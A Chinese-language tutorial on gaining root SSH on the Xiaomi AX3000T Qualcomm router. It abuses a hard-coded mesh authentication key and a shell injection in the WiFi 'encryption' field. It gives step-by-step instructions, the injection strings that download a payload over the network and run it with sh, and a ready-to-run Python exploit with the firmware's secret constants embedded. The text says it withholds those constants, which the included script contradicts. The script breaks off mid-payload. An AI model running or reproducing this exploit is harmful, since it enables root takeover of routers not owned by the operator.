


# 小米AX3000T-RD03v2-高通版固件开启SSH


> 不刷机、不拆机、不焊串口，只在原厂固件上打开 root 与 SSH。
> 适用机型：**AX3000T 高通版（RD03v2）**，固件 2.0.12 / 2.0.28。
> 阅读方式：**只想开 SSH 的人看第一节，三分钟能做完**；想搞清楚原理、或者要自己写实现的人，从第二节往后读；想把这件事丢给 AI 代跑的，直接给它附录 E。

## 一、三分钟版：照着做就行

这一节不含任何原理，只有你需要的动作。全程你**只需要自己决定一个值**：想给 root 设的密码。

### 1.1 你要填的值（就这两个）

| 要填的值 | 说明 | 默认值 |
|---|---|---|
| root 密码 | SSH 登录用，自己定 | 直接回车 = `admin`（不推荐） |
| WiFi 密码 | 过程中是临时密码，结束后你自己改 | `meshpoc12345` |

路由器 IP 不需要你改：脚本固定按小米出厂地址 `192.168.31.1` 走；你电脑在这个网段里的 IP，脚本会自己识别。

### 1.2 第 1 步：确认是"高通版"（30 秒）

AX3000T 有两个硬件版本，名字一样、芯片不同，**拿错版本做什么都没用**：

| 你的机器 | 判断依据 | 能否用本文 |
|---|---|---|
| **高通版 RD03v2** | 主控 IPQ5018；固件 2.0.12 / 2.0.28；机身标签写 RD03 或 RD03v2 | 可以 |
| 联发科版 RD03 | 主控 MT7981B；`xmir-patcher` 能用 | 不行，走 OpenWrt 那套方案 |

最省事的判断方式：运行脚本后，它第一屏就会打印 `设备型号 / 固件版本 / 初始标记` 三个值。看到型号里是 `RD03` 这一类，就继续；如果这台机器之前用 `xmir-patcher` 成功过，那它就是联发科版，请停止。

### 1.3 第 2 步：恢复出厂，并且不要打开浏览器

这是全流程**唯一必须人工做、无法自动化**的一步，也是最容易做错的一步。

1. 路由器通电，等指示灯稳定；
2. **长按背部 Reset 键约 8 秒**，指示灯变色闪烁后松手；
3. 等它自己重启完（60~90 秒）；
4. **不要打开浏览器、不要走设置向导**——向导一结束，这条路就关了，而且没有任何提示；
5. 电脑用**网线**接路由器任意 LAN 口（不要用 WiFi），确认拿到了 `192.168.31.x` 的地址。

### 1.4 第 3 步：准备脚本，然后一路回车

这个工具没有现成安装包，**代码就在本文最后的「附录 D」里**。三步准备好：

1. 新建一个空文件夹，把附录 D 那段代码整段复制进去，存成 `unlock_ax3000t.py`（UTF-8 编码，别存成 `.txt`）；
2. 电脑上要有 Python 3（Windows 安装时勾选 `Add python.exe to PATH`）；
3. 在这个文件夹里打开命令行，执行：

```bash {linenos=false}
python unlock_ax3000t.py
```

不想开命令行也行：同目录新建一个 `run.bat`，把下面三行粘进去，以后双击它即可。

```text {linenos=false}
@echo off
chcp 65001 >nul
python "%~dp0unlock_ax3000t.py"
pause
```

脚本只用 Python 标准库，**不用 pip 装任何东西，也不用 clone 任何仓库**。

然后按提示走，**一共只需两次输入**：

```text {linenos=false}
请输入数字 [1 或 2，回车默认 1]:      ← 直接回车
请输入您想为路由器设置的 root 密码:     ← 输入你的密码
（之后没有需要你输入的地方了）
```

它自己会把剩下的全部做完：出厂态登录 → 提交免配置初始化 → 重启并等 19553 端口 → 本机起临时 HTTP 服务 → 用硬编码密钥取管理凭据 → 把命令写进 WiFi 字段 → 触发执行 → 轮询 22 端口 → 顺便把 WiFi 改回来。

**两个必须知道的点**：

- 如果 Windows 防火墙弹窗询问是否允许 Python 联网，**选允许**。脚本要在 8123 端口给路由器取脚本用，拦掉就拿不到 payload。
- 过程大约 **1~3 分钟**，其中"等待路由器重启并上线"这一段会卡 80~100 秒，屏幕会打点，属于正常。

### 1.5 第 4 步：验证

脚本最后如果成功，会打印这样一段：

```text {linenos=false}
🎉 恭喜！SSH 已经成功开启并完成永久固化！
★ SSH 登录账号: root
★ SSH 登录密码: <你设的密码>
★ 命令行连接:   ssh root@192.168.31.1
```

自己验证一次：

```bash {linenos=false}
ssh -o HostKeyAlgorithms=+ssh-rsa root@192.168.31.1
id          # 应显示 uid=0(root)
```

`-o HostKeyAlgorithms=+ssh-rsa` 不能省：这台固件的 dropbear 是 2017 年的版本，只提供 SHA-1 的 RSA 主机密钥，新版客户端默认拒绝，不加会报 `no matching host key type found`。

### 1.6 第 5 步：把 WiFi 改成自己的

先讲清楚此刻 WiFi 处于什么状态：名字还是出厂那个（脚本只把出厂 `routername` 原样提交回去，没有改名），密码已经被脚本统一设成了 **`meshpoc12345`**（就是 1.1 表里那个临时密码）。所以：

- 网线接着的那台电脑，直接打开 `http://192.168.31.1`，不受 WiFi 密码影响；
- 想用手机或者无线连进来，选原来那个 SSID，密码输 `meshpoc12345`。

登录后台后进「Wi-Fi 设置」改名字和密码即可。改完以后旧密码立即失效，无线设备要用新密码重连；**改 WiFi、改网页管理密码都不会影响 root / SSH**，它已经固化在 `/data` 里了。

### 1.7 出问题怎么办

| 屏幕上的提示 | 原因 | 处理 |
|---|---|---|
| `出厂登录被拒绝` | 没真正恢复出厂，或已经走完向导 | 再长按 Reset 8 秒，之后**不要打开浏览器** |
| `等待超时：19553 端口未能打开` | reset 没完成 / 中途被向导打断 | 断电重启再跑一次；还不行就重新 Reset |
| 最后没探测到 22，但提示"可能已写入" | 守护进程还在收尾（最常见） | 直接手动 `ssh root@192.168.31.1` 试；能进就是成功 |
| 手动连也超时 | Mesh 触发中断 | 断电重启，等 1 分钟再试；仍不行就重新 Reset 再跑 |
| 防火墙拦了 Python | 8123 无法访问 | 允许联网，或临时关防火墙重跑 |

一句话原则：**这个脚本只在一个状态下有效——"刚 Reset、还没走向导"**。所有失败里，八成是这一条没满足。

---

## 二、它到底做了什么（原理速览）

想自己实现，或者想知道为什么必须恢复出厂，看这一节。

### 2.1 一句话概括

固件里有个负责 Mesh 组网的守护进程 `cab_meshd`（监听 TCP 19553 / TLS）。它有两个缺陷：认证用的是**固件里的硬编码密钥**，会把管理员密码的哈希 `web_passwd256` 同步给"已认证"的对端；而 Mesh 初始化脚本 `mimesh_init.sh` 会**把 WiFi 配置里的 `encryption` 字段当参数拼进 shell 执行**。

把这两件事串起来：用硬编码密钥冒充 Mesh 对端拿到管理员 token → 在 `encryption` 里塞命令 → 触发一次 Mesh 初始化 → 命令以 **root** 身份执行。

### 2.2 为什么现成工具都不行

早期的方法在这台机器上系统性失效，我们逐个复测过：

| 老路子 | 2.0.28 上的表现 |
|---|---|
| `xmir-patcher`（Lua API 注入点） | 自检 `hackCheck=3`，`arn_switch` / `start_binding` / `set_mac_filter` / `Smartcontroller` / `get_icon` 全部 `not working` |
| Lua 校验器绕过 | 校验逻辑加固，注入串被拦 |
| `parctl_add` 二阶注入 | 被 `macaddr` 格式校验挡住 |
| `mkxqimage` 镜像打包 | 参数固定成字符串，拿不到任意命令 |
| 备份/还原 tar 路径穿越 | tar 内容被消毒 |
| 改版本号重打包刷入 | U-Boot 的 RSA-2048 签名校验拒绝 |
| UART 串口 | 启动态只读，进不去 shell |

所以不是"哪个工具用得不对"，是这些入口在这台设备上**根本不存在**。

### 2.3 关键前提：必须在"出厂 / CAP 态"

V2 只在设备处于出厂 Mesh 初始化状态时才会被执行。这是全篇最重要的前提：



我们实测确认过反例：设备已正常配置上网时，注入串确实写进了两个频段的 `encryption` 字段（`wifi_detail_all` 能读到），但触发后 `cab_meshd` 只是 TLS 断连、崩一下重启，22 端口不出现，`fac_info` 里 `ssh` 仍是 `false`。**没有任何环节报错，就是安静地不生效。**

### 2.4 流水线

九个动作按顺序跑。每一步都有"成功信号"，信号没出现就不要往下走：

| # | 动作 | 成功信号 |
|---|---|---|
| 1 | 恢复出厂，不走向导 | 指示灯常亮，电脑能 ping 通 `192.168.31.1` |
| 2 | 出厂凭据登录，提交 `router_init` | 接口返回 `code:0` |
| 3 | 重启，等 19553 监听 | 端口能完成 TLS 握手 |
| 4 | 本机起 HTTP:8123 托管脚本 | 浏览器能打开 `http://<PC_IP>:8123/s` |
| 5 | 硬编码密钥认证，收 Type-6 | 收到含 `web_passwd256` 的 JSON |
| 6 | 用该哈希重新登录，换管理员 `stok` | 返回 `stok` |
| 7 | `set_wifi_without_restart` 写注入串 | `code:0`，复查 `encryption` 已是注入串 |
| 8 | 发 Type-7 触发 | 本机 HTTP 服务收到 `GET /s` |
| 9 | 轮询 22 端口 | `ssh root@192.168.31.1` 能进 |

`cab_meshd` 在触发后崩溃重启属正常现象；唯一可信的成功信号是第 8 步那个 `GET /s`。

四个阶段谁跟谁说话（简化版）：



### 2.5 为什么脚本要写进 `/data`

这台设备的文件系统结构决定了"一次性操作等于没做"：

| 挂载点 | 类型 | 重启后 | 含义 |
|---|---|---|---|
| `/` | squashfs，18 MB | 只读 | 固件本体，写不进去，也没空间 |
| `/etc` | ramfs（内存盘） | **全部还原** | 所有 `uci commit` 的结果都在这里 |
| `/data` | ubi 分区，4.7 MB | 保留 | 唯一能放持久化脚本的地方 |

所以：`nvram set ssh_en=1` 是持久的，但 `/etc/init.d/dropbear` 的补丁、防火墙的 include 钩子、cron 条目，**重启后全部归零**。这就是固化脚本必须每 2 分钟自检一次、发现丢了就补回去的原因——不是过度设计，是这台机器唯一能做对的方式。

### 2.6 固化脚本到底干了五件事

| 动作 | 为什么必须做 |
|---|---|
| 设置 root 密码 | 用三种方式重复设（`passwd` 两次 + `chpasswd`），因为单次可能被并发冲掉 |
| `nvram set ssh_en=1` 等开关 | 开机时决定服务是否被拉起 |
| 给 `/etc/init.d/dropbear` 打 `channel="debug"` 补丁 | release 固件对 SSH 有硬限制，不打补丁重启后起不来 |
| 建 `/data/auto_ssh` + 防火墙 include + cron `*/2` | 双保险：开机时挂一次，运行中每 2 分钟兜一次 |
| 把 WiFi 的 `encryption` 改回 `psk2` | 注入把字段写坏了，不还原你连不上 WiFi |

---

## 三、踩坑记录

这一节是真实的失败过程。如果你只读一节，读这一节。

### 坑 1：以为 `xmir-patcher` 能救场

跑完自检得到 `hackCheck=3`，五个注入点全部 `not working`。第一反应是"固件太新、工具没适配"，翻上游 issue 后发现 #119、#158 里已经有人报一模一样的现象——高通版 AX3000T 就是没有这些口子。**这是架构问题，不是配置问题。**

### 坑 2：注入明明成功了，却什么都没发生

第一次跑通 V1、换到管理员 token 时，信心是满的。两个 `set_wifi_without_restart` 都返回 `code:0`，`wifi_detail_all` 复查也确实读到了注入串。

然后发 Type-7：`cab_meshd` 连接 TLS 断连、进程崩一下重启、等两分钟 22 端口没出现、`fac_info` 的 `ssh` 仍是 `false`、临时 HTTP 服务一次请求都没收到。

最难受的是**没有任何环节报错**。后来才想明白：不在 CAP 态时，`cab_meshd` 不会把 `mimesh_init.sh` 当初始化脚本执行，注入串被安静地忽略了。恢复出厂、不走向导后再跑，一次就通。

### 坑 3：SSH 开了，重启又没了

两个叠加原因：`nvram set ssh_en=1` 虽然持久，但不打 `channel="debug"` 补丁服务不会正常起；就算打了补丁，`/etc` 是内存盘，重启就还原。修法是把它变成自愈脚本里的常规动作，而不是一次性操作。

### 坑 4：想换密钥登录，撞上 2017 年的 dropbear

这把固件的 dropbear 是 v2017.75 且裁剪过：只有 `ssh-rsa`，**没有 ed25519、没有 ECDSA、没有 rsa-sha2**。实测塞 ed25519 公钥进去直接 `Permission denied`；客户端这边新版 OpenSSH 默认拒绝 SHA-1 主机密钥。

结论：这台机器上"密钥登录"的唯一形态是"RSA + SHA-1"，而 SHA-1 已被淘汰。所以我们选的是**强密码 + 只在内网可达**，而不是用一个 2017 年的算法假装安全。

> 附带一条：它是 dropbear 不是 OpenSSH，那些针对 OpenSSH 的新漏洞(比如 2026 年披露的 musl + 无 PAM 组合问题)在这儿不适用；它的历史漏洞 CVE-2017-9078/9079 早已修复，CVE-2018-15599(用户名枚举)危害也很低。真正的风险在你的密码和端口暴露面，不在固件。

---

## 四、代价、风险与撤销

### 4.1 你会失去什么

- **恢复出厂意味着现有配置全丢**：宽带账号、WiFi 名与密码、端口转发、设备命名、米家绑定关系，都要重配；
- 过程中 WiFi 会短暂不可用（`encryption` 被改写的那几分钟）；
- 中途断电可能停在半配置状态，再按一次 Reset 即可。

### 4.2 持久化的边界

`/data` 在普通重启、重配网络时能保留，但**不保证在固件升级 / 恢复出厂 / 清除插件区时存活**。也就是说升级固件后，大概率需要重走一遍本文流程——这不是功能限制，是这套方案的成本结构。

### 4.3 安全

- 开了 SSH 之后，`root` + 弱密码就是最大的风险，比固件里那些 CVE 现实得多；
- **22 端口不要映射到公网**；
- 只在局域网用时，把 22 限制在内网网段（`iptables` 三条：放行 `lo` → 放行 `192.168.31.0/24` → 其余 DROP）比"设一个超长密码"更有效；
- 只在自己的设备上做这件事。本文方法本质是利用厂商固件的设计缺陷提权，对不属于你的设备使用是违法的。

### 4.4 撤销

最省事的方式：再跑一次脚本，选 `2`，输入路由器 IP（默认即可），确认时输入 `YES`。它会停服务、清 nvram 标记、删 `/data/auto_ssh`、摘防火墙钩子、清 cron、还原 dropbear 脚本、锁定 root。

想手工做（需要先能 SSH 进去）：

```bash {linenos=false}
/etc/init.d/dropbear stop; /etc/init.d/dropbear disable
nvram set ssh_en=0; nvram set telnet_en=0; nvram set uart_en=0; nvram commit
rm -rf /data/auto_ssh
uci -q delete firewall.auto_ssh; uci commit firewall; /etc/init.d/firewall reload
(crontab -l 2>/dev/null | grep -v auto_ssh) | crontab -
sed -i 's/channel="debug"/channel="release"/g' /etc/init.d/dropbear
passwd -l root
```

撤销后 SSH 就连不上了，网页后台照常可用。要做到"完全无痕"，最后再恢复一次出厂。

---

## 五、附录 A：协议细节（给想自己实现的人）

### 5.1 登录是挑战-应答，不是传密码

```text {linenos=false}
nonce    = "0_<MAC>_<unix时间戳>_<4位随机数>"        // MAC 可填 00:00:00:00:00:00
password = SHA256( nonce + <密码哈希> )              // 输出 hex
POST     /cgi-bin/luci/api/xqsystem/login
         username=admin&password=<上式>&nonce=<nonce>
```

出厂态下 `<密码哈希>` 是固件常量 `FACTORY_ADMIN_HASH`（出厂管理员密码的 SHA-256）；拿到 `web_passwd256` 之后就用它替换。返回的 `token` 就是后续 URL 里的 `stok`。

### 5.2 19553 的私有协议

- **传输**：TLS，自签证书；客户端要关闭证书校验，并允许旧套件。
- **帧头**：44 字节，前 6 字节有效 —— `ver(2) + body 长度(2) + type(2)`，大端。
- **版本**：`0x1001`。
- **认证（type=4）**：body 164 字节；前 16 字节放标识串（如 `ota0001`），偏移 `0x10` 起放 base64 口令。
- **口令算法**：`base64( HMAC-SHA256( key = "q" + MESH_KEY[1:], msg = 标识串 ) )`。
- **心跳（type=5）**：body 32 字节，`body[0]=1`。
- **配置（type=6）**：body 是 JSON，里面含 `web_passwd256`。
- **触发（type=7）**：body 272 字节，`body[0]=1`。

拿配置包的顺序：`认证 → 稍等 1 秒 → 发心跳 → 循环 recv → 拼帧、解析 type=6 的 JSON`。触发执行时不解析返回，直接发 type=7 后等 4 秒关连接。

### 5.3 注入串怎么构造

`encryption` 的正常值是 `psk2`，注入串以 `"` 开头提前闭合引号、以 `#` 注释掉剩余脚本：

```text {linenos=false}
wifiIndex=1 → encryption=" wget http://<PC_IP>:8123/s -O /tmp/x #
wifiIndex=2 → encryption=" sh /tmp/x #
```

两段分开写是有意的：一段只下载、一段只执行，失败时能区分"没下载"和"下载了没执行"。触发后 `cab_meshd` 崩溃重启属正常现象，唯一的成功信号是**你的 HTTP 服务收到 `GET /s`**。

### 5.4 常量从哪来

`FACTORY_ADMIN_HASH`、`MESH_KEY`、版本号、帧头长度都来自公开披露仓库 `ADCDS/xiaomi-ax3000t-cabmeshd-disclosure`。本文不复述其字面值，避免"照抄即用"的滥用；需要时到仓库里取。

---

## 六、附录 B：手工版完整流程（不用脚本）

给想自己写实现、或要在非 Windows 环境跑的人。每步给了目的、判据、请求。

### 步骤 1：确认未初始化

```text {linenos=false}
GET http://192.168.31.1/cgi-bin/luci/api/xqsystem/init_info
```

`inited` 不是 `1`、`hardware` 是 RD03v2、19553 尚未监听 → 可以继续。`inited=1` 说明走过向导，回 1.3 重按 Reset。

### 步骤 2：出厂登录 → router_init → 重启

按 5.1 的公式算出 `password`，`POST /api/xqsystem/login` 拿 `token`，然后：

```text {linenos=false}
POST http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/xqsystem/router_init
Content-Type: application/x-www-form-urlencoded

wifi24Ssid=<SSID>&wifi50Ssid=<SSID>
```

```text {linenos=false}
POST http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/xqsystem/reboot
```

判据：连接断开（正常）。30 秒后开始每 3 秒探测 19553，最多约 100 秒。

### 步骤 3：起临时 HTTP 服务

任意路径返回 payload 正文（如 `GET /s`），监听在**你网卡的 IP**上（不是 127.0.0.1），端口放行防火墙。它同时承担"注入成功检测器"的角色——路由器来取一次，就是成功信号。

### 步骤 4：取 `web_passwd256` 并换管理员 token

按 5.2 走一遍 19553，从 type=6 的 JSON 里取 `web_passwd256`，再用 5.1 的公式（哈希换成它）重新登录，得到**管理员权限**的 `stok`。

### 步骤 5：写入注入串

先读 `wifi_detail_all` 拿到两个频段 SSID，再两次 `set_wifi_without_restart`，字段按 5.3 填。判据：返回 `code:0`，且复查 `wifi_detail_all` 里 `encryption` 确实是注入串。

### 步骤 6：Type-7 触发

连 19553、认证、心跳，然后发 type=7。判据见 5.3 末尾。

### 步骤 7：payload 里做什么

按 2.6 的五件事写：设密码（注意转义 `'` `"` `$` 反引号）、nvram 开关、dropbear 补丁、`/data/auto_ssh` 自愈 + 双入口、WiFi 还原。

### 步骤 8：验证

```bash {linenos=false}
ssh -o HostKeyAlgorithms=+ssh-rsa root@192.168.31.1
```

---

## 七、附录 C：参考与致谢

- 漏洞披露与 PoC：`ADCDS/xiaomi-ax3000t-cabmeshd-disclosure`（V1 硬编码密钥认证缺陷、V2 `mimesh_init.sh` 未授权注入）
- 相关工具链：`ADCDS/xiaomi-openwrt-install`、`ADCDS/openwrt-xiaomi-ax3000t-rd03v2`
- 持久化思路：社区关于 `/data/auto_ssh` 与 UCI 防火墙 include 的实践（`lemoeo/AX6S`、恩山论坛等）

- 本文用到的脚本：见附录 D，单文件、纯标准库实现。

本文所有操作均在自有设备（RD03v2 / 2.0.28）上复现验证。为便于公开发布，文中不含真实 root 密码、WiFi 密码、序列号、MAC、域名与穿透凭据；内网地址用小米默认 `192.168.31.1`，电脑侧以 `<PC_IP>` 占位。

_完稿：2026-11-22_

---

## 八、附录 D：脚本全文

这就是 1.4 里要运行的那个文件（`unlock_ax3000t.py`）。整段粘走存盘即可，不需要改动。

两点说明：

- 代码里的 `FACTORY_ADMIN_HASH`、`MESH_KEY` 是固件里写死的常量，**所有 RD03v2（固件 2.0.12 / 2.0.28）都是同一份值**，不随机器的序列号、MAC 变化，所以不用你改。它们和附录 C 的披露仓库一致；若哪天小米换了固件密钥，以仓库更新为准。
- 想撤销时用同一个脚本选 `2`，流程见 4.4。

```python {linenos=false}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
小米 AX3000T 高通版 (RD03v2) 原厂固件 SSH 解锁与恢复工具箱
- 100% 采用 Python 原生标准库，无需 pip 安装任何第三方模块
- 单文件自包含漏洞利用与握手，无需 git clone 任何仓库
- 支持功能：
    [1] 开启 SSH 并永久固化 (支持自定义 root 密码，自动双模自愈，适配主路由与中继模式)
    [2] 撤销 Root 权限并完全关闭 SSH (清理固化与自启，无痕恢复出厂)
"""

import sys
import os
import time
import socket
import ssl
import json
import base64
import hashlib
import hmac
import random
import struct
import re
import threading
import subprocess
import http.server
import urllib.request
import urllib.parse
import urllib.error

# 官方固件常量与出厂凭据
FACTORY_ADMIN_HASH = "73a1d6d01003067844cd148b1502a24bb8a305c93dfef55f983da80fa8cdfa24"
MESH_KEY = b"838d364d8ed3bd085e150211ea6b3715"
MESH_PORT = 19553
MESH_VER = 0x1001
MESH_HDR = 0x2C

def get_local_ip(target="192.168.31.1"):
    """探测本机与路由器通信的网卡 IP（纯标准库，跨平台免调用系统命令）"""
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    try:
        s.connect((target, 80))
        ip = s.getsockname()[0]
    except Exception:
        ip = "192.168.31.100"
    finally:
        s.close()
    return ip

def port_open(host, port, timeout=2.5):
    """检测 TCP 端口是否畅通"""
    try:
        with socket.create_connection((host, port), timeout=timeout):
            return True
    except OSError:
        return False

# ---- HTTP 请求封装 ----
def http_json(url, data=None, timeout=25, retries=3):
    body = urllib.parse.urlencode(data).encode() if data is not None else None
    req = urllib.request.Request(url, data=body)
    req.add_header("User-Agent", "Mozilla/5.0")
    req.add_header("Connection", "close")
    if body is not None:
        req.add_header("Content-Type", "application/x-www-form-urlencoded")
    
    last_err = None
    for _ in range(retries):
        try:
            with urllib.request.urlopen(req, timeout=timeout) as resp:
                return json.loads(resp.read().decode("utf-8", "replace"))
        except Exception as e:
            last_err = e
            time.sleep(2)
    raise RuntimeError(f"请求失败: {url} -> {last_err}")

# ---- 阶段 1：出厂初始化并重启开放 Mesh 端口 ----
def init_factory_cap(host):
    print("\n[+] 步骤 1/4: 检测路由器出厂状态并初始化环境...")
    info = http_json(f"http://{host}/cgi-bin/luci/api/xqsystem/init_info")
    print(f"[*] 设备型号: {info.get('hardware')}  固件版本: {info.get('romversion')}  初始标记: {info.get('inited')}")

    if port_open(host, MESH_PORT):
        print("[!] 检测到 Mesh 端口 19553 已就绪，无需重复初始化。")
        return

    # 构造未初始化状态下的认证 Nonce
    mac = "00:00:00:00:00:00"
    nonce = f"0_{mac}_{int(time.time())}_{random.randint(1000, 9999)}"
    pwd = hashlib.sha256((nonce + FACTORY_ADMIN_HASH).encode()).hexdigest()
    
    res = http_json(f"http://{host}/cgi-bin/luci/api/xqsystem/login", {
        "username": "admin", "password": pwd, "nonce": nonce
    })
    stok = res.get("token")
    if not stok:
        raise RuntimeError(f"出厂登录被拒绝: {res}。请确保路由器已长按 Reset 恢复出厂，且未走完设置向导！")

    ssid = info.get("routername") or "Xiaomi_AX3000T"
    print(f"[*] 提交免配置初始化 (SSID: {ssid})...")
    http_json(f"http://{host}/cgi-bin/luci/;stok={stok}/api/xqsystem/router_init", {
        "wifi24Ssid": ssid, "wifi50Ssid": ssid
    })

    print("[*] 正在通知路由器重启，启动底层 Mesh 监听服务...")
    try:
        http_json(f"http://{host}/cgi-bin/luci/;stok={stok}/api/xqsystem/reboot", {}, timeout=5)
    except Exception:
        pass

    print("[*] 等待路由器重启并上线 (约需 80~100 秒)，请勿断电或拔网线...")
    time.sleep(30)
    for _ in range(35):
        if port_open(host, MESH_PORT):
            print(f"\n[+] 路由器已重启就绪，Mesh 认证端口 {MESH_PORT} 开放成功！")
            return
        print(".", end="", flush=True)
        time.sleep(3)
    raise RuntimeError("等待超时：路由器 19553 端口未能正常打开。")

# ---- 阶段 2：Mesh 漏洞利用与协议层实现 ----
def _hdr(typ, blen):
    h = bytearray(MESH_HDR)
    h[0:2] = struct.pack(">H", MESH_VER)
    h[2:4] = struct.pack(">H", blen)
    h[4:6] = struct.pack(">H", typ)
    return bytes(h)

def _q_pass(ident: bytes) -> bytes:
    return base64.b64encode(
        hmac.new(b"q" + MESH_KEY[1:], ident, hashlib.sha256).digest()
    )

def _tls_connect(host, port=MESH_PORT, timeout=20.0, retries=4):
    ctx = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)
    ctx.check_hostname = False
    ctx.verify_mode = ssl.CERT_NONE
    try:
        ctx.set_ciphers("ALL:@SECLEVEL=0")
    except ssl.SSLError:
        pass
    for i in range(retries):
        try:
            return ctx.wrap_socket(socket.create_connection((host, port), timeout=timeout))
        except (TimeoutError, socket.timeout, ssl.SSLError, OSError) as e:
            if i == retries - 1:
                raise RuntimeError(f"TLS 连接 {host}:{port} 失败: {e}")
            print(f"    (TLS 连接槽忙，等待 5 秒后重试 {i+1}/{retries}...)")
            time.sleep(5)

def _send_auth(sock, ident: bytes):
    b = bytearray(0xA4)
    b[0:len(ident)] = ident
    p = _q_pass(ident)
    b[0x10:0x10 + len(p)] = p
    sock.sendall(_hdr(4, len(b)) + bytes(b))

def _send_running(sock):
    b = bytearray(0x20)
    b[0] = 1
    sock.sendall(_hdr(5, len(b)) + bytes(b))

def leak_admin_stok(host, ident=b"ota0001", timeout=20.0):
    s = _tls_connect(host, timeout=timeout)
    _send_auth(s, ident)
    time.sleep(1.0)
    _send_running(s)

    buf = b""
    cfg = None
    s.settimeout(1.0)
    deadline = time.time() + 10.0
    while time.time() < deadline and cfg is None:
        try:
            chunk = s.recv(4096)
        except (socket.timeout, ssl.SSLWantReadError):
            continue
        except OSError:
            break
        if not chunk:
            break
        buf += chunk
        while len(buf) >= MESH_HDR:
            _, blen, typ = struct.unpack(">HHH", buf[0:6])
            if len(buf) < MESH_HDR + blen:
                break
            body = buf[MESH_HDR:MESH_HDR + blen]
            buf = buf[MESH_HDR + blen:]
            if typ == 6:
                js, je = body.find(b"{"), body.rfind(b"}")
                if js != -1 and je > js:
                    try:
                        cfg = json.loads(body[js:je + 1].decode("utf-8", "replace"))
                    except Exception:
                        pass
    try:
        s.close()
    except OSError:
        pass

    if cfg is None:
        raise RuntimeError("未在超时时间内收到路由器返回的 Type-6 配置同步包。")
    h256 = cfg.get("web_passwd256", "")
    if not h256:
        h256 = FACTORY_ADMIN_HASH
    print(f"[+] 成功提取原厂管理凭据: {h256[:16]}...")

    nonce = f"0_00:00:00:00:00:00_{int(time.time())}_{random.randint(1000, 9999)}"
    pwd = hashlib.sha256((nonce + h256).encode()).hexdigest()
    res = http_json(f"http://{host}/cgi-bin/luci/api/xqsystem/login", {
        "username": "admin", "password": pwd, "nonce": nonce
    })
    stok = res.get("token")
    if not stok:
        raise RuntimeError(f"换取管理 token 失败: {res}")
    return stok

# ---- 远程通用自愈与全能固化 Shell 构造 ----
def build_remote_sh(root_password):
    # 严格过滤密码中的危险转义字符，只允许常规字符，避免 Shell 语法注入破坏
    safe_pwd = root_password.replace("'", "'\\''").replace('"', '\\"').replace('$', '\\$').replace('`', '')
    return f"""#!/bin/sh

# 1. 采用三重方式确保 root 密码设置成功
echo -e '{safe_pwd}\\n{safe_pwd}' | passwd root 2>/dev/null
(echo '{safe_pwd}'; sleep 1; echo '{safe_pwd}') | passwd root 2>/dev/null
echo 'root:{safe_pwd}' | chpasswd 2>/dev/null

